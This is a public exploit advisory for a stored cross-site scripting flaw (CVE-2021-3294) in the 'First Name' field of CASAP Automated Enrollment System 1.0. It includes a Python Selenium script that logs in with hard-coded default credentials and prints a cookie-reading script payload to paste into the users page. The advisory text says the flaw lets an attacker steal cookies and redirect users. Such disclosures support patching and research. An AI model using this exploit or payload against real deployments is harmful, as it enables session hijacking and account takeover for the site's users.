    # Exploit Title: CASAP Automated Enrollment System 1.0 - 'First Name' Stored XSS
    # Author: nu11secur1ty
    # Date: 02.15.2021
    # Vendor: https://www.sourcecodester.com/php/12210/casap-automated-enrollment-system.html
    # Software Athor: https://www.sourcecodester.com/users/yna-ecole
    # Link: https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-3294/CASAP.zip
    # Link Original: https://www.sourcecodester.com/download-code?nid=12210&title=CASAP+Automated+Enrollment+System+using+PHP%2FMySQLi+with+Source+Code
    # CVE: CVE-2021-3294


    [+] Credits: (@ nu11secur1ty)
    [+] Website: https://www.nu11secur1ty.com/
    [+] Source:
    https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-3294

    [Exploit Program Code]
    #!/usr/bin/python3
    # author @nu11secur1ty
    # For CVE-2021-3294

    from selenium import webdriver
    from selenium.webdriver.common.by import By
    from selenium.webdriver.support.ui import WebDriverWait
    from selenium.webdriver.support import expected_conditions as EC
    import time
    import os


    #enter the link to the website you want to automate login.
    website_link="http://localhost/Final/index.php"

    #enter your login username
    username="yna.ecole"

    #enter your login password
    password="12345"


    #enter the element for username input field
    element_for_username="username"
    #enter the element for password input field
    element_for_password="password"
    #enter the element for submit button
    element_for_submit="login"


    #browser = webdriver.Safari() #for macOS users[for others use chrome vis
    chromedriver]
    browser = webdriver.Chrome() #uncomment this line,for chrome users
    #browser = webdriver.Firefox() #uncomment this line,for chrome users

    browser.get((website_link))

    try:
    username_element = browser.find_element_by_name(element_for_username)
    username_element.send_keys(username)
    password_element  = browser.find_element_by_name(element_for_password)
    password_element.send_keys(password)
    signInButton = browser.find_element_by_name(element_for_submit)
    signInButton.click()

    exploit="nu11<script>alert(document.cookie)</script>"
    print("If everything is ok, please paste this in to the Users in section in
    First Name\n")
    print(exploit)

    except Exception:
    #### This exception occurs if the element are not found in the webpage.
    print("Some error occured :(")

    [Vendor]
    https://www.sourcecodester.com/users/yna-ecole


    [Vulnerability Type]
    XSS

    [CVE Reference]
    https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-3294

    [Security Issue]
    CASAP Automated Enrollment System 1.0 is affected by cross-site scripting
    (XSS) in users.php.
    An attacker can steal a cookie to perform user redirection to a malicious
    website.


    [Video]
    https://www.youtube.com/watch?v=_nhIZyJ8rxM


    @nu11secur1ty
    https://www.nu11secur1ty.com/
